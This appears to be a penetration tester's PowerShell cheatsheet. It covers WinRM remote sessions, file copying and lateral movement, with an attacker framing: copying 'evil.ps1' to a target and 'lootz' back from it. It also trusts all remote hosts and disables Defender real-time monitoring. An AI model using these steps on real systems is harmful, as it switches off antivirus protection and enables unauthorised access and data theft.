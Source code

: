 # PowerShell Cheatsheet

## Quick Checks

Check the language mode:

`$ExecutionContext.SessionState.LanguageMode`

Check the version:

`$PSVersionTable.PSVersion`

## Remote PowerShell Sessions

WinRM access is governed by the Remote Management Users group. If we have access, easily checked remotely by probing with CrackMapExec, `Invoke-Command` allows for running remote commands:

`Invoke-Command -ComputerName target -Credential Credential -ScriptBlock {whoami}`

We can also enter an SSH-like session with PowerShell:

`Enter-PSSession -ComputerName target -Credential $Credential`

Sessions can also be set to variables and run in the background:

`$sess = New-PSSession -ComputerName target -Credential $Credential`

### Managing Sessions

Background sessions can be listed with:

`Get-PSSession`

Enter a PS Session with:

`Enter-PSSession -id #`

Removing sessions can be done with:

`Exit-PSSession` in an active session, or

`Get-PSSession | Disconnect-PSSession` to kill all background sessions.

### Copying To and From Sessions

`Copy-Item` facilitates moving files using `-ToSession` and `-FromSession`:

`Copy-Item -ToSession $sess -Path "C:\Users\Administrator\Desktop\" -Destination "C:\Users\Administrator\Desktop\evil.ps1" -Recurse`

`Copy-Item -FromSession $sess -Path "C:\Users\Administrator\Desktop\lootz\" -Destination "C:\Users\Administrator\Desktop\" -Recurse`

You just can't copy from one session to another.

### Nesting PSSessions

We can use PS Remoting to execute commands on a secondary remote machine for lateral movement or moving deeper into a network. 

`Invoke-Command` can be nested to execute a command on Computer A which then executes a command on Computer B.

However, using PSSession for this may lead to certain commands failing due what Microsoft calls the "double hop problem."

https://blogs.msdn.microsoft.com/clustering/2009/06/25/powershell-remoting-and-the-double-hop-problem/

"...will fail because you are trying to make a remote operation from an environment which is already using a remote connection – this is known as the “double-hop” problem."

When a nested PSSession is desired, enable CredSSP to allow delgation of creds on to the next machine.

### Enabling Remoting

First, enable remoting in an administrative PowerShell window:

`Enable-PSRemoting -Force`

Check WinRM:

`Set-Service WinRM -StartMode Automatic`
`Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}`

Trust all (*) hosts so we can use IP addresses instead of hostnames:

`Set-Item WSMan:localhost\client\trustedhosts -value *`

`Get-Item WSMan:\localhost\Client\TrustedHosts`

## Messing with AV

Check age of Defender's AV signatures:

`Get-MpComputerStatus | Select AntivirusSignature*`

Disable Defender:

`Set-MpPreference -DisableRealtimeMonitoring $true`